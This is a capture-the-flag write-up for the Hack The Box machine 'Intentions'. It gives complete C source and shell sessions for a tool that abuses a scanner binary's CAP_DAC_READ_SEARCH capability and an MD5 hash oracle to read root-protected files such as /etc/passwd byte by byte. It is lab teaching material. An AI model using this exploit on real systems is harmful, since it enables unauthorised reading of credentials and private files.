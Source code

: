# Hack The Box. Machines. Intentions

Machine write-up: https://7rocky.github.io/en/htb/intentions

### `get_file.c`

This C program is employed to read files from the file system using a binary with `CAP_DAC_READ_SEARCH` capability set (allows to read any file as `root`). The file is read byte by byte using an oracle with an MD5 hash.

This is the help panel of such binary:

```console
greg@intentions:~$ /opt/scanner/scanner
The copyright_scanner application provides the capability to evaluate a single file or directory of files against a known blacklist and return matches.

        This utility has been developed to help identify copyrighted material that have previously been submitted on the platform.
        This tool can also be used to check for duplicate images to avoid having multiple of the same photos in the gallery.
        File matching are evaluated by comparing an MD5 hash of the file contents or a portion of the file contents against those submitted in the hash file.

        The hash blacklist file should be maintained as a single LABEL:MD5 per line.
        Please avoid using extra colons in the label as that is not currently supported.

        Expected output:
        1. Empty if no matches found
        2. A line for every match, example:
                [+] {LABEL} matches {FILE}

  -c string
        Path to image file to check. Cannot be combined with -d
  -d string
        Path to image directory to check. Cannot be combined with -c
  -h string
        Path to colon separated hash file. Not compatible with -p
  -l int
        Maximum bytes of files being checked to hash. Files smaller than this value will be fully hashed. Smaller values are much faster but prone to false positives. (default 500)
  -p    [Debug] Print calculated file hash. Only compatible with -c
  -s string
        Specific hash to check against. Not compatible with -h
```

Basically, the tool takes a file and computes an MD5 hash. Then, it is then compared against a list of hashes in order to find coincidences. We can set the number of bytes to read from the file with `-l`.

The idea is to pre-compute all possible 256 MD5 hashes for a single byte, tell the binary to take a single character from a file, so that it matches the hash with one of the pre-computed list. As a result, we will know the plaintext byte of the file. Then, we keep the first byte fix and compute another list of 256 MD5 hashes iterating over the second character, and tell the binary to use two bytes... And so on and so forth.

Probably, this output will make things clearer:

```console
greg@intentions:~$ head -1 /etc/passwd
root:x:0:0:root:/root:/bin/bash
greg@intentions:~$ cd /tmp
greg@intentions:/tmp$ echo -n r | md5sum
4b43b0aee35624cd95b910189b3dc231  -
greg@intentions:/tmp$ echo r:4b43b0aee35624cd95b910189b3dc231 > hashes
greg@intentions:/tmp$ /opt/scanner/scanner -l 1 -c /etc/passwd -h /tmp/hashes  
[+] r matches /etc/passwd
greg@intentions:/tmp$ echo -n ro | md5sum
3605c251087b88216c9bca890e07ad9c  -
greg@intentions:/tmp$ echo o:3605c251087b88216c9bca890e07ad9c > hashes
greg@intentions:/tmp$ /opt/scanner/scanner -l 2 -c /etc/passwd -h /tmp/hashes
[+] o matches /etc/passwd
greg@intentions:/tmp$ echo -n roo | md5sum
6606afc4c696fa1b4f0f68408726649d  -
greg@intentions:/tmp$ echo o:6606afc4c696fa1b4f0f68408726649d > hashes
greg@intentions:/tmp$ /opt/scanner/scanner -l 3 -c /etc/passwd -h /tmp/hashes
[+] o matches /etc/passwd
greg@intentions:/tmp$ echo -n root | md5sum
63a9f0ea7bb98050796b649e85481845  -
greg@intentions:/tmp$ echo t:63a9f0ea7bb98050796b649e85481845 > hashes
greg@intentions:/tmp$ /opt/scanner/scanner -l 4 -c /etc/passwd -h /tmp/hashes
[+] t matches /etc/passwd
```

This is the `main` function:

```c
int main(int argc, char* argv[]) {
        char content[4096];
        char* filename;
        char c;
        int length;

        if (argc < 2) {
                printf("[!] Usage: %s <file-to-read>\n", argv[0]);
                return 1;
        }

        filename = argv[1];
        length = 0;

        memset(content, '\0', sizeof(content));

        do {
                write_hashes(content, length);
                c = run_scanner(filename, length + 1);
                content[length++] = c;
        } while ((c != '\0') && (length != sizeof(content)));

        printf("%s", content);

        return 0;
}
```

The function is so simple. As can be seen, there is a `do`-`while` loop that calls `write_hashes` and `run_scanner`. The character is returned from `run_scanner` and it is appended to `content`. Finally, the variable `content` is printed out.

The function `write_hashes` takes the current value of `contents` and the current length of known bytes:

```c
void write_hashes(char* preffix, int preffix_length) {
        MD5_CTX ctx;
        FILE* fp;
        int c;
        int i;
        int length;
        char* str;
        char hash[33];
        unsigned char digest[16];

        length = preffix_length + 1;
        str = malloc(length + 1);

        fp = fopen("/tmp/hashes", "w");

        if (fp == NULL) {
                puts("[-] Failed to open /tmp/hashes");
                exit(1);
        }

        for (c = 0; c < 256; c++) {
                snprintf(str, length + 1, "%s%c", preffix, c);
                MD5_Init(&ctx);
                MD5_Update(&ctx, str, strlen(str));
                MD5_Final(digest, &ctx);

                for (i = 0; i < 16; i++) {
                        snprintf(hash + i * 2, 32, "%02x", digest[i]);
                }

                fprintf(fp, "%d:%s\n", c, hash);
        }

        fclose(fp);
        free(str);
}
```

Here, we just set up `MD5` functions and use a `for` loop to compute the hashes of `preffix` plus the iterating character `c`:

```c
        for (c = 0; c < 256; c++) {
                snprintf(str, length + 1, "%s%c", preffix, c);
                MD5_Init(&ctx);
                MD5_Update(&ctx, str, strlen(str));
                MD5_Final(digest, &ctx);

                for (i = 0; i < 16; i++) {
                        snprintf(hash + i * 2, 32, "%02x", digest[i]);
                }

                fprintf(fp, "%d:%s\n", c, hash);
        }
```

The results are written to a file at `/tmp/hashes`, with format `"%d:%s\n"`. This means that the ASCII decimal value of each iterating character will be together the corresponding MD5 hash (separated by a colon).

Finally, `run_scanner` takes the `filename` (taken from `argv[1]`, as a command-line argument), and `length + 1`, to consider the next byte:

```c
char run_scanner(char* filename, int num_bytes) {
        FILE* fp;
        char cmd[256];
        char out[256];
        int i;

        snprintf(cmd, sizeof(cmd), "./scanner -l %d -c %s -h /tmp/hashes", num_bytes, filename);

        fp = popen(cmd, "r");

        if (fp == NULL) {
                puts("[-] Failed to run command");
                exit(1);
        }

        i = 0;
        memset(out, '\0', sizeof(out));

        while (!feof(fp)) {
                out[i++] = fgetc(fp);
        }

        if (out[4] == '\0') {
                return '\0';
        }

        *(strchr(&out[4], ' ')) = '\0';

        pclose(fp);

        return atoi(&out[4]);
}
```

Here, we run the `scanner` binary with the expected parameters and then take the output of the program, which contains the plaintext byte as an ASCII decimal value. Using `atoi` we can convert it from `char*` to `int` (`char`).

If we use this program, we will be able to read files:

```console
greg@intentions:/opt/scanner$ /tmp/get_file /etc/hostname
intentions
```